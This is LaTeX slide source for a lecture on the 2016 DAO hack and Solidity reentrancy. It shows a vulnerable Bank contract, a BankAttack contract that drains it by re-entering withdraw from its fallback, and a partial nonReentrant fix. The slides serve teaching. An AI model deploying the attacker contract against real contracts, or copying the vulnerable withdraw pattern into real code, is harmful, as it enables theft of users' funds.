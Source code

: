 \begin{withoutheadline}
\begin{frame}{DAO Hack 2016}
    \begin{itemize}
        \item Seized 5.2 percent of ETH
        \item Required a fork of Ethereum to "fix"
        \item While the outcome may be good, effectively Ethereum is governed by an oligopoly of programmers?
        \item No court of law decides what will happen 
    \end{itemize}
\end{frame}

\begin{frame}[fragile]{Example of Reentrancy Attack}
\begin{lstlisting}
contract Bank {
  mapping (address => uint) public balances;

  function deposit() public payable{
    require(msg.value > 0, "funds needed to set balance");
    balances[msg.sender] += msg.value;
  }

  function withdraw() public {
    require(balances[msg.sender] > 0, "insufficient balance");
    (bool success, ) = msg.sender.call{value: balances[msg.sender]}("");
    require(success, "transfer failed");
    balances[msg.sender] = 0;
  }
}
\end{lstlisting}
\end{frame}

\begin{frame}[fragile]{Reentrancy Attack}
\url{https://www.infuy.com/blog/preventing-re-entrancy-attacks-in-solidity/}
contract BankAttack {
  Bank bank;

  function setBankContract(address bankContract) public {
    bank = Bank(bankContract);
  }

  fallback () external payable {
    if (address(bank).balance >= 1 ether){
      bank.withdraw();
    }
  }

  function attack() external payable {
    require(msg.value == 1 ether);
    bank.deposit{value: 1 ether}();
    bank.withdraw();
  }
}
\end{frame}

\begin{frame}[fragile]{Solution}
\begin{lstlisting}
contract Bank {
  bool private _entered;

  modifier nonReentrant {
    require(!_entered, "re-entrant call");
    _entered = true;
    _;
    _entered = false;
  }


\end{lstlisting}
\end{frame}
\end{withoutheadline}
